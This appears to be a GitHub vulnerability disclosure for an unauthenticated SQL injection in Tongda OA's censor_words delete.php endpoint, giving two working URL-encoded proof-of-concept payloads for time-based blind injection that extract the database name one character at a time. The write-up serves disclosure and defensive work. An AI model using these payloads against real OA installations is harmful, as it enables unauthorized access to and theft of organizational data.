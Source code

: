 Unauthorized SQL injection vulnerability exists in Tongda OA

version:v2017 version and versions below v11.10

1.
Route: general/system/censor_words/module/delete.php

There is an injected parameter: $DELETE_STR

The code here is very concise. When $DELETE_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/kenankkkkk/cve/assets/149234800/5085675e-7c19-447c-82db-a2dad666e324)

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/kenankkkkk/cve/assets/149234800/af5405af-7a04-44dd-ac76-f412ee6a9f80)

And when we change 116 to 115, there will be no delay, indicating the existence of SQL injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
``
![image](https://github.com/kenankkkkk/cve/assets/149234800/c5e29f54-7a62-450a-9830-53885b41b5c0)
